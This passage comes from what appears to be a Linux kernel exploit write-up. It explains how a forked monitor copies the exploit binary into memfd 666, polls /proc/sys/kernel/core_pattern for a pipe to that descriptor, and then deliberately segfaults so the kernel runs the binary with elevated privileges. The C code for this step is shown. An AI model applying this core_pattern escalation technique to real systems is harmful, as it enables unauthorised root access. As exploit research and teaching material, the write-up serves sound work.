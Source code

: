 Even with heuristic optimizations, hitting the race condition remains highly unreliable and difficult.

## 3.6. Get The Flag

During the initialization phase, a `core_pattern` monitoring process is launched to detect whether the exploitation has succeeded.

``` c
int main(int argc, char *argv[])
{
    // [...]
    /**
     * Create a child process to monitor core_pattern. If the core_pattern is
     * overwritten due to the vulnerability, it immediately triggers a segfault.
     */
    if (fork() == 0) {
        setup_core_pattern_monitor();
    }
    // [...]
}
```

This monitoring process duplicates the current exploitation binary into a memfd (file descriptor 666), and continuously polls the contents of `/proc/sys/kernel/core_pattern`. Once a modification is detected, the process crashes via a null dereference to trigger the core dump.

``` c
void setup_core_pattern_monitor()
{
    pin_on_cpu(1);
    setsid();

    int memfd = memfd_create("", 0);
    char buf[0x100] = {};

    // Duplicate the exploit binary to memfd 666.
    sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff);
    dup2(memfd, 666);
    close(memfd);

    // Poll the core_pattern content and trigger segfault if it is modified.
    while (1) {
        int corefd = open("/proc/sys/kernel/core_pattern", O_RDONLY);
        read(corefd, buf, sizeof(buf));
        close(corefd);
        if (strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0)
            break;
        sleep(1);
    }
    *(unsigned long *)0 = 0;
}
```
